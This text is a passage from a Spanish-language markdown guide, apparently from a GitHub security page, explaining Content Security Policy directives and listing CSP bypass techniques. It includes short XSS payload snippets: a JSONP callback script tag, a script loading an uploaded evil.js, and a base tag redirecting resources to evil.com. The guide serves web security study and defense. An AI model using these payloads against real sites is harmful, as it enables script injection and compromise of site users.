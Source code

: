 ## Fundamentos de CSP

CSP especifica via cabecera HTTP qué recursos, scripts, imágenes y frames puede cargar la web.
**Directivas clave**:

- `script-src`: fuentes de JS.
- `object-src`, `frame-ancestors`, `base-uri`: controles extra para plugins, iframes y URLs base.
- `report-uri`/`report-to`: logging.

**Ejemplo:**

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com; object-src 'none'; frame-ancestors 'none';
```

---

## Técnicas Avanzadas de Bypass

### Break CSP por Wildcards o Fuentes Laxas

- Uso de `*`, subdominios no controlados, wildcard en script-src.
- Cadena: script-src 'self' *.trusted.com permite takeover de subdominio.

### JSONP, APIs y Endpoints Dinámicos

- Script JSONP de terceros vulnerable a callback controlado:
  `<script src="https://api.trusted.com/jsonp?callback=evil"></script>`
- Endpoints de analytics con eval/dinámica controlados por el atacante.

### Subida y Ejecución de Archivos

- Si uploads están permitidos en script-src, un atacante sube y ejecuta su propio JS:
  `<script src="/uploads/evil.js"></script>`

### Data/Blob Schemes, Inline y Eval

- Permitir `data:`, `blob:` en CSP revive vector XSS.
- Permitir `unsafe-inline` o `unsafe-eval` permite JS arbitrario y sintéticamente generado.

### Base URI y Chain

- `<base href="https://evil.com/">` redirige recursos a un dominio controlado.

### Mutación DOM y Gadget Chains

- Cadenas en el frontend donde un script legítimo evalúa un input controlado tras una transformación indirecta.
- Bypass mediante APIs postMessage, gadgets, innerHTML/cadena controlada.

### Service Worker - Cadena Supply Chain
